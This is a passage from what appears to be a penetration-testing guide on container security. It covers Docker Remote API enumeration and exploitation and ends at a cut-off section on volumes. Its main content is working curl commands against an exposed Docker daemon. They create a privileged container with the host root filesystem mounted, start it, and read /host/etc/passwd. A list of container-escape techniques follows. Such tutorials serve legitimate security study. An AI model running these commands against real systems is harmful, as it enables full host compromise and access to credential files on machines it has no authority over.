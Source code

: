 #### Risk Categories
- **Privileged Containers**: Containers running with elevated privileges
- **Host Access**: Containers with host filesystem access
- **Service Account Risks**: Overly permissive service accounts
- **Network Policies**: Missing or misconfigured network policies

## Exploiting Docker Remote API

### Docker API Enumeration
The Docker Remote API allows programmatic control of Docker daemons.

#### API Discovery
```bash
# Check for exposed Docker API
nmap -p 2375,2376 TARGET_IP

# Access Docker API
curl http://TARGET_IP:2375/info

# List containers
curl http://TARGET_IP:2375/containers/json
```

### API Exploitation Techniques
```bash
# Create malicious container
curl -X POST -H "Content-Type: application/json" \
-d '{"Image":"alpine","Cmd":["/bin/sh"],"HostConfig":{"Binds":["/:/host"],"Privileged":true}}' \
http://TARGET_IP:2375/containers/create

# Start container
curl -X POST http://TARGET_IP:2375/containers/CONTAINER_ID/start

# Execute commands in container
curl -X POST -H "Content-Type: application/json" \
-d '{"Cmd":["cat","/host/etc/passwd"]}' \
http://TARGET_IP:2375/containers/CONTAINER_ID/exec
```

### Container Escape via API
- **Host Filesystem Mount**: Mount host filesystem into container
- **Privileged Containers**: Create containers with --privileged flag
- **Docker Socket Mount**: Mount Docker socket for container-to-host access
- **Capability Abuse**: Exploit Linux capabilities for privilege escalation

## Hacking Container Volumes

### Volume Types and Risks
Different volume types present various security risks and attack opportunities.
